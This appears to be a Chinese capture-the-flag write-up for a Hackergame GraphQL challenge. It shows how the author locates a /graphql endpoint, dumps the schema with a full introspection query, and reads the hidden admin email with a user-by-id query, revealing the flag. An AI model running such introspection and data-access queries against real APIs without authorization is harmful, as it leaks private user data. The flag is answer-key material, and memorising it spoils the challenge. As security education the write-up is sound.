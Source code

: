 # 图之上的信息

> 小 T 听说 GraphQL 是一种特别的 API 设计模式，也是 RESTful API 的有力竞争者，所以他写了个小网站来实验这项技术。 
>
> 你能通过这个全新的接口，获取到没有公开出来的管理员的邮箱地址吗？

![1](img/1.png)

登陆进去后：

![2](img/2.png)

所以目标是~~脱裤~~拖库（

搜索 `GraphQL` ， 翻看一些介绍文章及[中文主页](https://graphql.cn/)，发现GraphQL特点之一是用一个请求可以获得多个资源。

![4](img/3.png)

[这篇专栏](https://zhuanlan.zhihu.com/p/33876142)中也提到了：

> ……GraphQL 是单一入口，一般配置在`[host]/graphql/`…… 

于是访问 `/graphql` ，发现是有响应的：

![4](img/4.png)

另外在官网中也能找到一个图形化的交互界面项目：[GraphiQL](https://github.com/graphql/graphiql)。

![6](img/5.png)

（好像使用GraphiQL是非预期解）

去release里下载下来，安装。把api地址扔进去。顺带把cookie也添加进去：

![6](img/6.png)

一些文章中，提到了GraphQL的内省机制（Introspection），可以直接查询schema。根据[这篇专栏](https://zhuanlan.zhihu.com/p/390876937)构造查询语句：

```
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

![7](img/7.png)

把结果扔到[分析工具](https://apis.guru/graphql-voyager/)中，得到数据库的结构：

![8](img/8.png)

这样我们就可以构建查询语句了。admin的 `id` 为 `1` 是一个合理的猜测。其实GraphiQL有自动补全key的功能，熟练的话甚至可以省去上一步。 

```
query q{
  user(id:1){
    privateEmail
  }
}
```

这个类似于 `SELECT privateEmail WHERE id=1 FROM user` 。

![9](img/9.png)

得到flag `flag{dont_let_graphql_l3ak_data_7178ef5260@hackergame.ustc}` 。 